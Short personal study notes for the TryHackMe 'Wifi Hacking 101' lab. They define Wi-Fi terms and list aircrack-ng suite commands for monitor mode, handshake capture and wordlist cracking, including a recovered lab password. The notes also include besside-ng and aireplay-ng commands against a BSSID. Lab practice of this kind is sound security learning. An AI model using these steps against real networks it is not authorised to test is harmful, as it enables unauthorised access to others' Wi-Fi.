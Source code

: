 
# Matheus Jesus 04-04-2020

## Try Hack Me - [Wifi Hacking 101](https://tryhackme.com/room/wifihacking101)

### Key Terms

* SSID: The network "name" that you see when you try and connect
* ESSID: An SSID that *may* apply to multiple access points, eg a company office, normally forming a bigger network. For Aircrack they normally refer to the network you're attacking.
* BSSID: An access point MAC (hardware) address
* WPA2-PSK: Wifi networks that you connect to by providing a password that's the same for everyone
* WPA2-EAP: Wifi networks that you authenticate to by providing a username and password, which is sent to a RADIUS server.
* RADIUS: A server for authenticating clients, not just for wifi.

1. WPA-PSK - Password only
2. WPA-EAP - Username and Password 

### Commands

#### airmon-ng

1. sudo airmon-ng check kill 
2. sudo airmon-ng start wlan0 -> interface shall be renamed to wlan0mon

#### airdump-ng

1. sudo airdump-ng --bssid --channel -w

#### aircrack-ng

1. sudo aircrack-ng -b -w -j

**/usr/share/wordlists/rockyou.txt** wordlist

**BSSID 02:1A:11:FF:D9:BD**

Found password **greeneggsandham**

sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt -j output NinjaJc01-01.cap

My BSSID
A2:C7:C4:9D:33:BB  

sudo airmon-ng start wlan0
sudo airodump-ng prism0
sudo aireplay-ng --test prism0
sudo besside-ng prism0 -b A2:C7:C4:9D:33:BB
